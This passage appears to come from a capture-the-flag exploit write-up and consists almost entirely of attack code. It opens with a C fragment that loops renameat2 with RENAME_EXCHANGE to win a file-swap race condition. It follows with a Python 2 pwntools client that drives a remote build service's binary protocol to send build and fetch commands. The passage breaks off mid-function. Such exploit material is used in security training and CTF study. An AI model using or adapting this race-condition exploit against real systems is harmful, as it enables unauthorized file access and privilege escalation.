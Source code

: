 ```c  
   alarm(5); // sanity time limit  
   for (;;) {  
       syscall(__NR_renameat2, AT_FDCWD, FILENAME1, AT_FDCWD, FILENAME2, RENAME_EXCHANGE);  
   }

   return 0;  
}  
```

```python  
#!/usr/bin/env python2

from __future__ import print_function

from pwn import *

import sys  
import threading  
import time  
import io

def send_command(p, opcode, body):  
   p.send(p32(opcode))  
   p.send(pack_string(body))

def pack_string(s):  
   return p32(len(s)) + s

def send_build(p, ref_id, args, files):  
   tmp = b""  
   tmp += p32(ref_id)  
   tmp += p32(len(args))  
   for arg in args:  
       tmp += pack_string(arg)  
   tmp += p32(len(files))  
   for f in files:  
       tmp += pack_string(f[0])  
       tmp += pack_string(f[1])

   send_command(p, 3, tmp)

def send_fetch(p, ref_id, filename):  
   send_command(p, 7, p32(ref_id) + p32(len(filename)) + filename)

def read_string(p):  
   n = u32(p.read(4))  
   return p.read(n)

def reader():  
   while True:  
       opcode = u32(p.read(4))  
       body_len = u32(p.read(4))  
       body = p.read(body_len)

       if opcode == 1:  
           ref_id = u32(body[0:4])  
           n = u32(body[4:8])  
           s = body[8:8+n]  
           print("stdout=%r" % s, file=sys.stderr)

           got_stdout.set()

       elif opcode == 8:  
           b = io.BytesIO(body)
```
